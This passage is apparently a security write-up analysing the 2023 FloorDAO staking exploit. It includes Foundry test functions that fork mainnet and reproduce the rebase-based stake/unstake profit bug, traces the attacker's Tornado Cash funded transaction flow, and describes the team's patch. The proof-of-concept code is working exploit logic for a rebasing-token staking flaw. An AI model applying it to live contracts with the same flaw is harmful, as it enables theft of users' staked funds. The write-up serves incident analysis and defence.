Finally, the attacker removes the flash loan fees and gains approximately 14.6k Floor tokens, which are then exchanged for about 40 WETH.

For the `stake` operation, gFloor tokens are chosen, but sFloor tokens can also be chosen, as shown below:

```solidity
function testsFloor() external {
    uint attackBlockNumber = 18068772;
    vm.rollFork(attackBlockNumber);

    deal(address(floor), address(this), 152_000 * 10**9);

    uint balanceAttacker = floor.balanceOf(address(this));
    emit log_named_decimal_uint("Initial attacker floor", balanceAttacker, floor.decimals());

    floor.approve(address(staking), type(uint256).max);
    sFloor.approve(address(staking), type(uint256).max);

    staking.stake(address(this), balanceAttacker, true, true);  // get sFloor
    uint sFloorBalance = sFloor.balanceOf(address(this));
    
    // uint gFloorBalance = staking.wrap(address(this), sFloorBalance);
    // staking.unstake(address(this), gFloorBalance, true, false);  // unstake by gFloor
    staking.unstake(address(this), sFloorBalance, true, true);  // unstake by sFloor

    balanceAttacker = floor.balanceOf(address(this));
    emit log_named_decimal_uint("Finally attacker floor", balanceAttacker, floor.decimals());
    emit log_named_decimal_uint("Finally attacker sFloor", sFloor.balanceOf(address(this)), sFloor.decimals());
}
```

However, if sFloor tokens are used for the `unstake` operation, only the same amount of Floor tokens as previously staked can be withdrawn. The additional tokens remain staked in the contract as sFloor tokens because the increase in tokens occurs during the `rebase` within the `unstake` operation. These additional tokens can be withdrawn by using the `wrap` function to convert sFloor tokens to gFloor tokens. But if sFloor is converted to gFloor using `wrap`, Floor can be withdrawn entirely. This is because the `unstake` function recalculates the amount using `balanceFrom` after the `rebase` operation.

Other users can also acquire more Floor tokens after the attack, as demonstrated in the following code:

```solidity
function testOthers() external {
    uint attackBlockNumber = 18068772;
    vm.rollFork(attackBlockNumber);

    deal(address(floor), address(0x1234), 100 * 10**9);
    vm.startPrank(address(0x1234));
    floor.approve(address(staking), type(uint256).max);
    staking.stake(address(0x1234), 100 * 10**9, true, true);  // get sFloor
    vm.stopPrank();

    deal(address(floor), address(this), 100_000 * 10**9);

    uint balanceAttacker = floor.balanceOf(address(this));
    floor.approve(address(staking), type(uint256).max);
    sFloor.approve(address(staking), type(uint256).max);
    staking.stake(address(this), balanceAttacker, false, true);  // get sFloor
    uint gFloorBalance = gFloor.balanceOf(address(this));
    staking.unstake(address(this), gFloorBalance, true, false);
    balanceAttacker = floor.balanceOf(address(this));
    emit log_named_decimal_uint("Finally attacker Floor", balanceAttacker, floor.decimals());
    emit log_named_decimal_uint("Finally 0x1234 sFloor", sFloor.balanceOf(address(0x1234)), sFloor.decimals()); // same increased rate
}
```

The results show that other users who have staked normally also have more sFloor tokens.

Furthermore, because the Floor protocol has not been very active for a long time, the epoch has been lagging behind for quite some time. Therefore, this attack could have been executed much earlier. Attempting the attack at block 17068772 would yield approximately 53 ETH.

### Attack Flow

Analyzing the entire attack process of the [attacker's address](https://etherscan.io/address/0x4453aed57c23a50d887a42ad0cd14ff1b819c750).



First, at around 7:08 AM on September 5th, the attacker initiated the attack by depositing approximately 1 ETH through Tornado Cash.



At 7:20 AM, the attacker created an `attackContract` for the attack. Five minutes later, they executed the contract, initiating the attack. Subsequently, the remaining ETH was transferred to the [profitAddress](https://etherscan.io/address/0xd3b85111c974c350f95532e3f4210a41c4874bb6).



The profitAddress gradually withdrew all ETH funds through Tornado Cash, and the entire attack process took less than an hour.

## Misc

### Frontrunning Protection

Upon simple decompilation of the [attackContract](https://library.dedaub.com/ethereum/address/0x6ce5a85cff4c70591da82de5eb91c3fa38b40595/decompiled), it appears that there were minimal measures in place to prevent frontrunning. The attack logic was essentially embedded in the code with only basic sender verification and the number of stake cycles as a call parameter. Additionally, profits are transferred to another address to avoid detection.

The gas used in the transaction is not particularly high (although it is still considerably higher compared to other transactions within the block), indicating that the attacker may have been confident in using Flashbots for this attack. However, no relevant tags such as `MEV Transaction` or `Flashbots` were found on the [etherscan page](https://etherscan.io/tx/0x1274b32d4dfacd2703ad032e8bd669a83f012dde9d27ed92e4e7da0387adafe4) of the transaction, making it unclear what exactly happened.


### Patch

Following the attack, the FloorDAO team chose to reduce the liquidity of the Uniswap Floor-WETH pool. They also set the distributor to 0 in the transaction [0xcd97](https://etherscan.io/tx/0xcd976ac20998783f6c03a195821fbe83a988d5c94c8bcb8c2314f9c75991fa76), disabling the rebase functionality of the staking contract. As a result, even if all Floor tokens were borrowed from the pool for staking, the `balance + transferAmount` during the `rebase` execution remained lower than the `staked` amount. This prevented any profits from being generated, effectively eliminating the possibility of further attacks.

## Reference

[FloorDAO-docs-v1](https://docs.floor.xyz/v/en)

[Floor Post Mortem & Incident Summary](https://medium.com/floordao/floor-post-mortem-incident-summary-september-5-2023-e054a2d5afa4)

[olympus-contracts: Incorrect distribute amount when stake triggers rebase](https://github.com/OlympusDAO/olympus-contracts/issues/172)

[Introduce the Warm-up for Staking](https://medium.com/@darumadao/introduce-the-warm-up-%EF%B8%8F-for-staking-2387de4dd48)

[MagnetDAO_warmup_period_when_staking](https://www.reddit.com/r/MagnetDAO/comments/rv8l9t/warmup_period_when_staking/)

[What is "gons" in Olympus Finance?](https://ethereum.stackexchange.com/questions/115615/what-is-gons-in-olympus-finance)

[Rebasing Tokens with Oracles and Liquidity Mining: The Ampleforth Approach as a Precursor to OlympusDAO](https://medium.com/@marcilgen_70414/rebasing-tokens-with-oracles-and-liquidity-mining-the-ampleforth-approach-as-a-precursor-to-fdec8f83a0bb)